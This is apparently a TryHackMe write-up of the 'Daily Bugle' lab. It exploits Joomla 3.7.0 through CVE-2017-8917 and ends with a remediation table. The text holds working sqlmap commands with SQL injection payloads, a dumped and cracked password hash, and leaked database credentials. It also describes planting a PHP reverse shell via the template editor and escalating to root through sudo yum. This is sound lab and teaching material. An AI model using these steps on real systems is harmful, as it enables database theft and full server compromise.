# Daily Bugle — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Hard | **Target IP:** 10.66.147.149 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Daily Bugle** is a TryHackMe machine built around a known SQL injection vulnerability in a specific Joomla release. The homepage identifies itself as a Joomla site, and fingerprinting its language files pins the exact version to 3.7.0, which is vulnerable to an unauthenticated SQL injection in the com_fields component. Exploiting it with sqlmap dumps the Joomla users table, and John the Ripper cracks the recovered bcrypt hash, granting access to the administrator panel as a Super User. From there, editing a template file through Joomla's built-in template editor executes a PHP reverse shell, landing a shell as apache. The site's configuration file exposes the MySQL root password, which turns out to be reused as the local system password for the jjameson account over SSH, and a permissive sudo rule on yum completes the escalation to root.

**Attack chain:** Joomla 3.7.0 Fingerprinting → SQL Injection (CVE-2017-8917) → Credential Dump & Cracking → Admin Panel Access → Template Editor RCE → Configuration File Credential Reuse → SSH as jjameson → Sudo yum Privilege Escalation → Root

### 1. Reconnaissance

A full TCP port scan of the target turned up SSH, a `Joomla`-powered `Apache` site, and an unauthenticated `MariaDB` instance:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.66.147.149

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   syn-ack ttl 62 MariaDB 10.3.23 or earlier (unauthorized)
```

### 2. Enumeration — Fingerprinting the Joomla Installation

The homepage identifies itself as a `Joomla`-powered tabloid site, "The Daily Bugle", with a standard login form in the sidebar:



A directory brute force confirmed the `Joomla` file structure and exposed the admin panel:

```
gobuster dir -u http://10.66.147.149/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php

images               (Status: 301) [Size: 236] [--> http://10.66.147.149/images/]
index.php            (Status: 200) [Size: 9280]
media                (Status: 301) [Size: 235] [--> http://10.66.147.149/media/]
templates            (Status: 301) [Size: 239] [--> http://10.66.147.149/templates/]
modules              (Status: 301) [Size: 237] [--> http://10.66.147.149/modules/]
bin                  (Status: 301) [Size: 233] [--> http://10.66.147.149/bin/]
plugins              (Status: 301) [Size: 237] [--> http://10.66.147.149/plugins/]
includes             (Status: 301) [Size: 238] [--> http://10.66.147.149/includes/]
language             (Status: 301) [Size: 238] [--> http://10.66.147.149/language/]
README.txt           (Status: 200) [Size: 4494]
components           (Status: 301) [Size: 240] [--> http://10.66.147.149/components/]
cache                (Status: 301) [Size: 235] [--> http://10.66.147.149/cache/]
libraries            (Status: 301) [Size: 239] [--> http://10.66.147.149/libraries/]
robots.txt           (Status: 200) [Size: 836]
tmp                  (Status: 301) [Size: 233] [--> http://10.66.147.149/tmp/]
LICENSE.txt          (Status: 200) [Size: 18092]
layouts              (Status: 301) [Size: 237] [--> http://10.66.147.149/layouts/]
administrator        (Status: 301) [Size: 243] [--> http://10.66.147.149/administrator/]
configuration.php    (Status: 200) [Size: 0]
```



`README.txt` gave a first hint at the installed version:

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master
```

The exact point release was confirmed through the language manifest at `/language/en-GB/en-GB.xml`, whose `<version>` element states it precisely as 3.7.0:

```
<metafile version="3.7" client="site">
<name>English (en-GB)</name>
<version>3.7.0</version>
<creationDate>April 2017</creationDate>
```

### 3. SQL Injection via CVE-2017-8917 — Database & Credential Dump

`Joomla 3.7.0` is affected by `CVE-2017-8917`, an unauthenticated SQL injection in the `com_fields` component, documented in exploit-db `42033`:

```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# CVE : - CVE-2017-8917

URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27

Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Running that command against the target confirmed the injection in `list[fullordering]` and enumerated the available databases:

```
sqlmap -u "http://10.66.147.149/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p "list[fullordering]"

sqlmap identified the following injection point(s) with a total of 2999 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 1099 FROM(SELECT COUNT(*),CONCAT(0x7162767a71,(SELECT (ELT(1099=1099,1))),0x716b767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 1178 FROM (SELECT(!SLEEP(5)))EERw)
---
the back-end DBMS is MySQL
web server operating system: Linux CentOS 7
web application technology: PHP 5.6.40, Apache 2.4.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
fetching database names
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

Enumerating the `joomla` database revealed its tables, with `#__users` standing out as the target:

```
sqlmap -u "http://10.66.147.149/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p "list[fullordering]" -D joomla --tables

Database: joomla
[72 tables]
+----------------------------+
| #__assets                  |
| #__associations            |
| #__banner_clients          |
| #__banner_tracks           |
| #__banners                 |
| #__categories              |
| #__contact_details         |
| #__content_frontpage       |
| #__content_rating          |
| #__content_types           |
| #__content                 |
| #__contentitem_tag_map     |
| #__core_log_searches       |
| #__extensions              |
| #__fields_categories       |
| #__fields_groups           |
| #__fields_values           |
| #__fields                  |
| #__finder_filters          |
| #__finder_links_terms0     |
| #__finder_links_terms1     |
| #__finder_links_terms2     |
| #__finder_links_terms3     |
| #__finder_links_terms4     |
| #__finder_links_terms5     |
| #__finder_links_terms6     |
| #__finder_links_terms7     |
| #__finder_links_terms8     |
| #__finder_links_terms9     |
| #__finder_links_termsa     |
| #__finder_links_termsb     |
| #__finder_links_termsc     |
| #__finder_links_termsd     |
| #__finder_links_termse     |
| #__finder_links_termsf     |
| #__finder_links            |
| #__finder_taxonomy_map     |
| #__finder_taxonomy         |
| #__finder_terms_common     |
| #__finder_terms            |
| #__finder_tokens_aggregate |
| #__finder_tokens           |
| #__finder_types            |
| #__languages               |
| #__menu_types              |
| #__menu                    |
| #__messages_cfg            |
| #__messages                |
| #__modules_menu            |
| #__modules                 |
| #__newsfeeds               |
| #__overrider               |
| #__postinstall_messages    |
| #__redirect_links          |
| #__schemas                 |
| #__session                 |
| #__tags                    |
| #__template_styles         |
| #__ucm_base                |
| #__ucm_content             |
| #__ucm_history             |
| #__update_sites_extensions |
| #__update_sites            |
| #__updates                 |
| #__user_keys               |
| #__user_notes              |
| #__user_profiles           |
| #__user_usergroup_map      |
| #__usergroups              |
| #__users                   |
| #__utf8_conversion         |
| #__viewlevels              |
+----------------------------+
```

Direct column name retrieval for `#__users` failed, so `sqlmap` fell back to brute-forcing column existence against its common-columns wordlist:

```
sqlmap -u "http://10.66.147.149/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p "list[fullordering]" -D joomla -T '#__users' --columns

Database: joomla
Table: joomla.#__users
[6 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| name     | non-numeric |
| email    | non-numeric |
| id       | numeric     |
| params   | numeric     |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+
```

Dumping `username` and `password` returned a single administrator account:

```
sqlmap -u "http://10.66.147.149/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p "list[fullordering]" -D joomla -T '#__users' -C username,password --dump

Database: joomla
Table: #__users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+----------+--------------------------------------------------------------+
```

### 4. Cracking jonah's Password Hash

`sqlmap`'s own dictionary attack against the bcrypt hash found no match. `John the Ripper` against `rockyou.txt` cracked it instead:

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

spiderman123     (?)     
```

### 5. Admin Panel Access & RCE via Template Editor

The recovered credentials, `jonah:spiderman123`, logged in directly as a Super User:





`Joomla`'s `Extensions > Templates > Templates` editor allows direct edits to a template's PHP files. The `protostar` template's `error.php` was replaced with the `PentestMonkey` PHP reverse shell, pointed at the attacker host:



With a `netcat` listener ready and the file saved, the payload was triggered by requesting it directly:

```
curl http://10.66.147.149/templates/protostar/error.php
```

The listener caught a callback as `apache`:



### 6. Local Enumeration — Configuration File Credential Reuse

A privilege check failed for lack of a controlling terminal:

```
sudo -l

sudo: no tty present and no askpass program specified
```

The `Joomla` webroot's `configuration.php` exposed the database's `root` credentials:

```
public $host = 'localhost';
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
public $dbprefix = 'fb9j5_';
```

Checking `/home` under this shell turned up a single local account, `jjameson`.

### 7. Credential Reuse — SSH Access as jjameson

The database's `root` password worked directly as `jjameson`'s own SSH password:





A permission check revealed a passwordless `sudo` rule on `yum`:

```
sudo -l

Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

### 8. Privilege Escalation to Root via yum

`yum`'s plugin loading mechanism accepts an attacker-controlled plugin path, letting a custom Python plugin run as `root` the moment `yum` is invoked:





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| `Joomla 3.7.0`'s `com_fields` component is vulnerable to an unauthenticated SQL injection (`CVE-2017-8917`) | Update `Joomla` immediately and apply vendor patches for known CVEs |
| The `Super User` account (`jonah`) used a weak, dictionary-crackable password despite bcrypt hashing | Enforce strong, unique passwords even when hashes are properly salted and hashed |
| The built-in `Template Editor` allows arbitrary PHP file edits from the admin panel, equivalent to direct code execution | Disable direct template file editing in production, or restrict it to trusted administrators only |
| `configuration.php` exposed the `MySQL` `root` password in plaintext, and it was reused as `jjameson`'s OS password | Avoid credential reuse across database and OS accounts, and restrict read access to `configuration.php` |
| `jjameson` could run `/usr/bin/yum` as `root` with `NOPASSWD` | Remove unnecessary `NOPASSWD` sudo entries, especially for package managers that can execute arbitrary plugin code |
